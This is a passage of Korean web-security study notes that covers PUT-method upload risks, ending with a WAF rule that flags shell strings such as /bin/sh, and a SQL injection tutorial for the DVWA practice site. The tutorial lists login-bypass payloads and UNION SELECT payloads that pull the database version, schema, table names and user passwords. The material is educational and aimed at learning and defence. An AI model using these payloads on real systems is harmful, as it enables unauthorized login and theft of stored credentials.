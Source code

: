 Put Method가 활성화 되어 있어도, 해당 디렉터리에 write 권한이 없으면 사용불가함<br> 
사용되는 Method는 Path별로 각각 설정도 가능함(즉 `폴더별로 write 권한이 다른 경우` 취약점이 없을 수 있음)<br>
google.com과 같은 메인 도메인 외에 drive.google.com, mail.google.com 같은 서브 도메인이 있기 때문에 다양한 경로에 대한 테스트를 해야한다.<br>
{:.note}

<mark style='background-color: #dcffe4'> 대응방안 </mark> 은 `화이트리스트 기반 확장자 필터(Secure Coding)`, `업로드 되는 Path에 실행 권한 제거`, `WAF에서 Request_Body에 포함된 문자열(shell, /bin/sh, /bin/bash, cmd 등)탐지`가 있다.

##### 2-1-5. SQL Injection(SQLi)

SQL Injection은 SQL쿼리를 통해 원하는 정보를 추출하는 취약점 공격이며, SQL DB를 통해 shell(OS shell)실행도 가능하다. 예를 들어 페이지 Login하거나 게시판의 글을 조회하거나 글을 검색할 떄 SQL 쿼리를 통해 이뤄지는데, Login할 때 내가 입력한 아이디 및 패스워드 정보가 DB에 있는지를 조회한다. 게시판의 글은 게시글의 고유번호나 컨텐츠 내용, 작성일, 작성자와 같은 정보가 DB에 저장되며, 검색시 입력한 키워드가 SQL쿼리를 사용하여 DB에 저장된 데이터를 조회하기 때문에 SQL 취약점 공격이 가능하다.

```sql
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';"; 
``` 
SELECT: 검색 쿼리<br>
first_name, last_name: 컬럼명<br>
From users: 검색할 테이블 지정<br>
where: 조건 설정<br>
user_id: '$id" id가 N입력될 경우 first&last name을 출력<br>
{:.note}

`DB이해`<br>
일반적으로 WEB서버는 1개의 DB안에 여러개의 Table로 구성된다<br>
데이터베이스: 테이블이 저장 되어있는 전체구조<br>
테이블: 특정목적을 가지는 컬럼과 행으로 구성<br>
컬럼: 더이상 쪼개질 수 없는 속성 정보<br>
행: 저장되는 데이터<br>
{:.note}

아래는 로그인 우회하는 SQLi이다.
```sql
WHERE user_id = '$id'에서 조건절만 확인하여 구조를 파악할 수 있음
WHERE user_id = '1 'or '1'='1' #' 에서
SQLi 원리: 1 'or '1'='1' # 쿼리를 완성하여 구조(문법)오류 제거
'1 'or '1' = '1' #' or은 둘 중 하나만 참이면 무조건 반환(저장된 첫 번째 행 데이터가 출력됨)
로그인 우회: 'or 1=1 #, 'or 1=1 -- 사용
#, --은 주석처리 구분 // 어떤 DB를 사용하는지 모르기 때문에 2개 다 사용해봐야함.
ex) WHERE userid = ''or 1=1 #' AND pass='abcd'
```

로그인 우회에 이은 정보추출하는 SQLi 'union select 구문(다중 검색 구문)이 있다. 아래는 마찬가지로 dvwa 실습 사이트에서 수행가능하다.
```sql
# SQL injection에 1~5 입력
1'union select 1# 입력 // 취약점이 없으면 페이지가 넘어가지 않으며, 페이지 넘어가면 취약점이 있을 수 있음(blank page, syntax error)
1'union select 1,1# // Query가 실행이 되어 내용이 출력됨
1'union select 1,@@version# // DB 버전 정보 확인
1'union select 1,schema_name from information_schema.schemata# // schema_name: DB이름, information_schema: table과 DB 정보를 가지고 있는 table(DB 이름과 table 이름, 컬럼명 저장)
1'union select 1,table_name from information_schema.tables#
1'union select 1,table_name from information_schema.tables where table_schema='dvwa'# // table 정보 출력.
1'union select 1,column_name from information_schema.columns where table_name='users'# // 컬럼관련된 정보 모두 출력
1'union select user,password from users# // user, password 정보 모두 출력
```
